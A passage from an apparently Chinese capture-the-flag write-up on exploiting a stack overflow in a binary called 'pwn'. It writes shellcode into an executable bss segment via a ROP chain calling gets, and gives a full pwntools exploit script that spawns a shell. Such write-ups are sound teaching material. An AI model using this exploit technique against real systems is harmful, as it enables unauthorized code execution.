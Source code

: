 [![](https://p3.ssl.qhimg.com/t01844ef9a09907454a.png)](https://p3.ssl.qhimg.com/t01844ef9a09907454a.png)

整理上面的条件

这里有两种思路我们来看看:

### <a class="reference-link" name="0x3.1%20bss%E6%AE%B5%E5%86%99%E5%85%A5shellcode"></a>0x3.1 bss段写入shellcode

gdb下用vmmap查看下发现bss段有rwx权限

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t012215383ec373ab69.png)

这里就很简单了,直接用gets写入shellcode,然后ret2csu到call的时候执行bss地址即可。

`ROPgadget --binary pwn --only "pop|ret"` 找一下发现有pop rdi这样我们就很方便控制`gets`了

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t0132b985cd8f2c2885.png)

exp:

```
#!/usr/bin/python
# -*- coding:utf-8 -*-

from pwn import *
# from libformatstr import *

debug = True
# 设置调试环境
context(log_level = 'debug', arch = 'amd64', os = 'linux')
context.terminal = ['/usr/bin/tmux', 'splitw', '-h']

if debug:
    sh = process("./pwn")
    elf=ELF('./pwn')
else:
    link = "x.x.x.x:xx"
    ip, port = map(lambda x:x.strip(), link.split(':'))
    sh = remote(ip, port)
    elf=ELF('./quantum_entanglement')

rc = lambda: sh.recv(timeout=0.5)
ru = lambda x:sh.recvuntil(x, drop=True)

bss_addr = elf.bss()
gets_plt_addr = elf.plt["gets"]
pop_rdi_addr = 0x4006a3
shell_code = asm(shellcraft.amd64.linux.sh())

log.success("bss_addr =&gt; `{``}`".format(hex(bss_addr)))
log.success("gets_plt_addr =&gt; `{``}`".format(hex(gets_plt_addr)))
log.success("pop_rdi_addr =&gt; `{``}`".format(hex(pop_rdi_addr)))
offset = 0x78
payload = offset * "A" + p64(pop_rdi_addr) + p64(bss_addr) + p64(gets_plt_addr) + p64(bss_addr)
# pause()
# gdb.attach(sh, "*0x400633")
sh.sendline(payload)
sh.sendline(shell_code)
rc()
sh.interactive()
```
